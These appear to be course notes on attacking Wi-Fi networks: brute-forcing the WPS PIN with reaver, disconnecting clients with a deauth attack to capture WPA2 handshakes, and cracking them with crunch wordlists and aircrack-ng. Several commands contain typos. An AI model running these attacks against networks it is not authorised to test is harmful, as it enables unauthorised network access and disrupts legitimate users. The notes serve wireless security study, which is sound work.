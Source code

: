 `wash --interface <usb wireless network adapter>`

if the router does not PBC(Push button) then the following commands will work

`aireplay-ng --fakeauth 30 -a <bssid or mac address> -h <replace the minus in the value of unspeq with colon> <wireless adapter in monitor mode>`

we associate with target network every 30 sec.Then we will use reaver to run brute force to get the pin

`reaver --bssid <bssid> --channel <no> --interface <wireless usb adapter> -vvv --n-associate`

-vvv to show us as much info possible, this helps us when things go wrong
--no-associate tells reaver not to associate with target network as we are manually doing it. If this does not work, then use an older version of reaver and check lecture and materials.

wps pin will be visible in the WPS PIN field

### to make a file executable

`chmod +x <filename>`

`./<filename> normal command`

###  to gain access in a WPA2 and get the password

wpa and wpa2 do not send useful data in data packets, they send them in handshake packets, we need to gain access of those packets, we will have to wait for a new client to connect to the network , then we will capture the handshake, instead of this we can use deauth attack

`airodump-ng --bssid <bssid> --channed <no> write <filename> <name of wireless adapter in monitor mode>`

or

`airplay-ng --deauth 4 -a  <network mac Address-bssid> -c <clientAddress-station> <wirelessAdapterMonitorMode>`

we will disconnect the client for a short period , we will send 4 deauth packets. Client will not even notice this.

### creating a word list

`crunch <min> <max> <characters> -t <pattern> -o <filename>`

`man crunch`

other options of crunch present
 
### aircrack-ng will unpack the handshake and extract the useful information

MIC(Message integrity code) will verify if the password is correct or not. for passwords from wordlist we will generate MIC, then it will compare this mic with the mic already present in the handshake  

`aircrack-ng <filename with .cap extension> -w <wordList file>`

check if there is any key found field
